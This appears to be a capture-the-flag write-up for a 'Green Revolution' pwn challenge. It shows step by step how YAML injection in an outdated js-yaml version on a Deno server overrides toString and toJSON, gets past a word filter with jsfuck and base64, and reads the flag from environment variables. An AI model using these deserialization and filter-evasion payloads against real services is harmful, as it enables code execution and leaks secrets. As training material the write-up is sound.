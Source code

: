 # Green Revolution

## Category
Pwn

## Estimated difficulty
Medium

## Description
JS YAML injection challenge with a twist of requiring a self-modification of toJSON to get the flag.

## Scenario
  Finally, after months of waiting for our devs to finish our new case management system, we're gonna get it next week!
  I got so excited, I wanted to waste less time porting over our cases by hand, so I quickly put together a quick migration script.
  I reused one of the old flag-getting edge functions on our production server, hopefully it isn't gonna be a problem... is it?

## Write-up
This challenge fundamentally is composed of three parts:
- Injecting YAML
- Bypassing the primitive filter
- Getting said injected YAML to actually do something

The challenge is whitebox, so let's see what we can gather from the index.ts:
- It's in typescript
- It runs on Deno
- It uses a specific and outdated version of js yaml, 3.0.0
- It has a fairly large wordlist at the bottom, used to filter out "bad files"
- It does rudimentary runtime type checking

From all of this, we can already gather:
- The injection is going to be through YAML
- The wordlist could be a problem
- The type checking could be a problem

Let's find a common YAML injection examples for JS:
`"toString": !<tag:yaml.org,2002:js/function> "function (){very_evil_thing();}"`

If we append it at the bottom of the file, well, we realize that it's never called.
Drat.

Let's try something else, because one thing that DOES read the entire structure is the JSON returning response!
`"toJSON": !<tag:yaml.org,2002:js/function> "function (){very_evil_thing();}"`
...and we're blocked. Welp, there comes the wordlist. Back to toString.

Let's put it somewhere else, like, some value on which toString is called!
`newAssessment.projectId = String(oldAssessment.projectId);` does, so, let's overwrite projectID with an object:

```yaml
projectId:
- "toString": !<tag:yaml.org,2002:js/function> "function (){very_evil_thing();}"
```
...And now, we run into the runtime type checking.

Let's go deeper, what does the type checking *actually* check?

```ts
function isEnvironmentalImpactAssessment(obj: any): obj is EnvironmentalImpactAssessment {
	return obj &&
		typeof obj.projectId === 'string' &&
		typeof obj.projectName === 'string' &&
		typeof obj.projectDescription === 'string' &&
		obj.projectLocation &&
		typeof obj.projectLocation.latitude === 'number' &&
		typeof obj.projectLocation.longitude === 'number' &&
		Array.isArray(obj.environmentalData) &&
		Array.isArray(obj.impactAssessments) &&
		Array.isArray(obj.mitigationStrategies) &&
		Array.isArray(obj.complianceRecords);
}
```

Pretty much just the first layer, it doesn't check any of the children objects.
Do we have anything in there that has toString called on it? Yes!

```ts
console.log(`converting comp record ${record.complianceType}`)
data: String(data.dataValue), //(from environmentalData)
console.log(`fixme: strategies are not filtered yet ${strategy.strategyType}`)
```

Any of these three things will be toString'd, but are not type checked, I picked complianceType myself.

```yaml
complianceRecords:
- complianceType:
  - "toString": !<tag:yaml.org,2002:js/function> "function (){return 'coolThing'}"
```

If we run it now, we can see that in the server logs, we see `coolThing`, injection achieved! We won!
...well, only partly, we still ain't got no flag.

Let's try to grab the flag!
```yaml
complianceRecords:
- complianceType:
  - "toString": !<tag:yaml.org,2002:js/function> "function (){ return retrieveFlag() }"
```
...damn word filter. `jsfuck` it.

```yaml
complianceRecords:
- complianceType:
  - "toString": !<tag:yaml.org,2002:js/function> "function (){ return [][(![]+[])[+[]]+(![]+[..."
```

We're not allowed to access that scope. Damn.

Can we access the flag directly, though?
```yaml
complianceRecords:
- complianceType:
  - "toString": !<tag:yaml.org,2002:js/function> "function (){ return Deno.env.get('FLAG') }"
```

We can see the flag in the server logs. That's cool, but we don't have the *actual* server logs.
How can we exfiltrate the flag?
As we have no access to the parent scope, nor can we interrupt it by returning a value.

Well, we still have our old friend toJSON. Blocked by the word filter you say? Well, say no more, because I've literally got eval() right there to bypass it for me, and add it dynamically to the parsed object:
```yaml
complianceRecords:
- complianceType:
  - "toString": !<tag:yaml.org,2002:js/function> "function (){this['toJSON'] = function(){ return Deno.env.get('FLAG') }}"
```
...oh, right, the word filter.
```yaml
complianceRecords:
- complianceType:
  - "toString": !<tag:yaml.org,2002:js/function> "function (){this[atob('dG9KU09O')] = function(){ return [][(![]+[])[+[]]+..."
```

And we can finally see the flag in the returned JSON:
```json
    "complianceRecords": [
        {
            "policyName": [
                "CSC{1_5we4r_my_c4rb0n_fo0tprin7_i5_0v3rwh3lm1ng}"
            ],
```


## Solve script
POST a request with the exploit.yaml file in resources

## Flag
CSC{s0m3o1_br0k3_th1s_w45_1t_y0u}

## Creator
Théo Davreux

## Creator bio
:dancing_android_rainbow_blobmoji: